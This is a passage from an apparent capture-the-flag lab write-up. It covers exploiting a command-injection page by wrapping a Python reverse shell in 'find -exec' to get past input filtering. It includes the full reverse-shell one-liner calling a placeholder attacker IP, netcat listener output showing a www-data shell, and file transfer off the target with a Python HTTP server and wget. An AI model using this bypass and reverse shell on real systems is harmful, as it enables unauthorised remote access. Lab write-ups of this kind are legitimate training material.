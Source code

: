 - After that, I visited the `/secret` directory and there is an command injection option. The thing is, not all commands work since it's sanitized as note already told us. I used `find command` in order to get the reverse shell.

---

## ⚙️ Shell Access

- I tried multiple different reverse shells and this is the one that worked for me, also you must combine it with find command in order for it to work. Don't forget to start a listener! Syntax is `find /path/to/file -exec {} <command> \;`

  ```
  find /usr/bin/python3 -exec {} -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR-THM-IP]",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.129.112] 38422
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  ```
  
- Change it to putty shell and start looking for flags.

---

## 🧍 User Privilege Escalation

- While moving down the ladder, I found a folder with some images. Download the hacker one since it contains hidden files. Start a Python HTTP server from target machine and use `wget` to move it to your Kali.

  ```
  www-data@ubuntu:/var/www/files$ cd images/
  www-data@ubuntu:/var/www/files/images$ ls -al
  total 2112
  drwxr-xr-x 2 root root    4096 Oct  3  2020 .
  drwxr-xr-x 3 root root    4096 Oct  3  2020 ..
  -rw-r--r-- 1 root root 2083694 Oct  3  2020 002d7e638fb463fb7a266f5ffc7ac47d.gif
  -rw-r--r-- 1 root root   68841 Oct  3  2020 hacker-with-laptop_23-2147985341.jpg
  
  www-data@ubuntu:/var/www/files/images$ python3 -m http.server 1234
  Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
  [YOUR-THM-IP] - - [14/May/2025 14:43:51] "GET /hacker-with-laptop_23-2147985341.jpg HTTP/1.1" 200 -
  [YOUR-THM-IP] - - [14/May/2025 14:44:08] "GET /002d7e638fb463fb7a266f5ffc7ac47d.gif HTTP/1.1" 200 -
  ^C
  Keyboard interrupt received, exiting.

  wget http://10.10.129.112:1234/hacker-with-laptop_23-2147985341.jpg
  wget http://10.10.129.112:1234/002d7e638fb463fb7a266f5ffc7ac47d.gif
  ```
  